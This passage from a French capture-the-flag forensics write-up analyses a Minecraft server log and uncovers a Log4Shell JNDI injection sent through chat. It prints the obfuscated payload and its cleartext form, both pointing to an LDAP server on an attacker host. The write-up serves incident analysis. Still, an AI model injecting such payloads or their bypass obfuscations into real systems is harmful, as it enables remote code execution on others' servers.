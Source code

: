 Conformément à l'énoncé, un serveur Minecraft est lancé. On remarque également des commandes étranges qui semblent provenir d'un attaquant.

```
root@malice:~# ls -lh /var/log/minecraft.log
-rwxrwxr-x 1 app app 22M Oct 25 16:37 /var/log/minecraft.log

root@malice:~# wc -l /var/log/minecraft.log
267319 /var/log/minecraft.log
```

Les logs du serveur sont bien remplies de messages anodins postés dans le tchat.

Il est fort probable que nous soyons à la recherche d'une exploitation de la fameuse vulnérabilité Log4J.

```
root@malice:~# grep -i jndi /var/log/minecraft.log 

root@malice:~# grep -i ldap /var/log/minecraft.log 

root@malice:~# grep { /var/log/minecraft.log 
[16:39:33] [Server thread/INFO]: <unhappy> ${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}l${lower:D}ap${sd:k5:-:}//unhappy.competitor.com:1389/a} 
roo
```

Bingo !

Cela rappelle le message `Hacked by unhappy.competitor.com` vu précédemment.

Cherchons plus d'infos sur cet utilisateur :

```
root@malice:~# grep unhappy minecraft.log
[16:39:32] [User Authenticator #10639/INFO]: UUID of player unhappy is a00b999e-001b-4807-b999-add902b9999c
[16:39:32] [Server thread/INFO]: unhappy[/172.240.18.1:57008] logged in with entity id 10991 at (-257.5, 67.0, -198.5)
[16:39:32] [Server thread/INFO]: unhappy joined the game
[16:39:33] [Server thread/INFO]: <unhappy> ${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}l${lower:D}ap${sd:k5:-:}//unhappy.competitor.com:1389/a} 
[16:39:33] [Server thread/INFO]: <unhappy> Reference Class Name: foo 
[16:40:02] [Server thread/INFO]: unhappy lost connection: Disconnected
[16:40:02] [Server thread/INFO]: unhappy left the game
```

On voit que le payload a été échappé avec [des techniques connues](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words). Le payload en clair est `${jndi:ldap://unhappy.competitor.com:1389/a}`.

Mais il est impossible de joindre `unhappy.competitor.com`. On se rend compte que `competitor.com` héberge un site légitime n'ayant aucun rapport avec le CTF. On essaye également de joindre `172.240.18.1`, l'adresse avec laquelle le joueur `unhappy` a rejoint le serveur Minecraft mais cela n'est pas possible non plus.

Regardons si on voit d'autres traces de dans les logs :
